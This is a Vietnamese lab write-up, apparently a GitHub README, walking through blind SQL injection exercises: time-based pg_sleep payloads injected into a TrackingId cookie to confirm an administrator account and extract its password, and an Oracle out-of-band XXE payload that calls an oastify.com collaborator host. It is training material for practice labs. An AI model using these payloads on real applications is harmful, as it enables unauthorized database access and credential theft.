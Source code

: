   ```
  TrackingId=0gJOuXb4yHVsqFqy'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--;
  ```
<img width="1477" height="797" alt="image" src="https://github.com/user-attachments/assets/d2af16ee-1783-4a35-8045-cee2d02b09ef" />
+ 1=2 luôn sai → database sẽ chạy pg_sleep(0) (không ngủ).
+ Server phản hồi ngay lập tức 

- Kiểm tra user "administrator" có tồn tại
```
TrackingId=0gJOuXb4yHVsqFqy'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
<img width="1488" height="735" alt="image" src="https://github.com/user-attachments/assets/f379d2ad-9078-45e4-a846-6c11aea732b4" />
+ nếu có user "administrator" → server sẽ delay 10 giây.
> server bị delay 10 giây nên => user administrator có tồn tại

- Kiểm tra độ dài mật khẩu 
```
TrackingId=0gJOuXb4yHVsqFqy'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
<img width="1463" height="785" alt="image" src="https://github.com/user-attachments/assets/05ad78b9-658e-4b05-9705-4b9a6d300557" />
+ Server delay 10s r trả kết quả nền mật khẩu dài hơn 1 kí tự
+ Lần lượt tăng số mật khẩu và thử cho đến khi server không bị delay thì đó là số  kí tự của mật khẩu
<img width="1484" height="782" alt="image" src="https://github.com/user-attachments/assets/a7a426ae-953f-436f-8083-bf6f10f15ec3" />
> Mật khẩu có 20 kí tự

- Dò mật khẩu bằng Intruder
<img width="1919" height="829" alt="image" src="https://github.com/user-attachments/assets/bf27e8a8-0805-47b1-8d5d-6bc62609baf7" />

<img width="1767" height="782" alt="image" src="https://github.com/user-attachments/assets/f7c14d9a-fc66-47f6-a696-07698c087d69" />

> Tìm được mật khẩu là bxr94d3tfvy6wr8qxe6j
<img width="1848" height="636" alt="image" src="https://github.com/user-attachments/assets/d33481d1-00e2-4db1-ad1f-012e38b63412" />

- **Khai thác blind SQL injection bằng kỹ thuật out-of-band (OAST)**
  Khi ứng dụng thực thi truy vấn không đồng bộ hoặc phản hồi không phụ thuộc vào dữ liệu/lỗi/thời gian → các kỹ thuật trước sẽ thất bại.
  => Kích hoạt tương tác mạng ra ngoài (DNS, HTTP…) tới máy chủ do kẻ tấn công kiểm soát, từ đó:
  + Suy ra điều kiện.
  + Hoặc exfiltrate (rò rỉ) dữ liệu trực tiếp qua yêu cầu mạng.

 **Lab: Blind SQL injection with out-of-band interaction**
- Dùng Burp Suite để chặn request có chứa cookie TrackingId.
- Chèn payload SQL nhằm ép cơ sở dữ liệu Oracle phân tích một đoạn XML có khai báo external entity.
<img width="1505" height="774" alt="image" src="https://github.com/user-attachments/assets/9a52612c-1e77-4911-905b-9f0e78c6eebe" />
```Payload
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//hwhumh7je7ncilih1a1r73r6dxjp7jv8.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```
<img width="1919" height="753" alt="image" src="https://github.com/user-attachments/assets/dad435a3-5cf3-44c6-b9d4-21a86b025ee4" />
- Khi câu lệnh được thực thi, DB sẽ gửi request HTTP/DNS ra ngoài đến domain Collaborator.
- Kiểm tra tab Collaborator, Collaborator ghi nhận được 2 kết nối (HTTP và DNS).
<img width="1857" height="915" alt="image" src="https://github.com/user-attachments/assets/cfdcbdd6-2c4d-41cd-95aa-6489d8fe9694" />
> Ứng dụng tồn tại lỗ hổng SQLi dạng out-of-band.
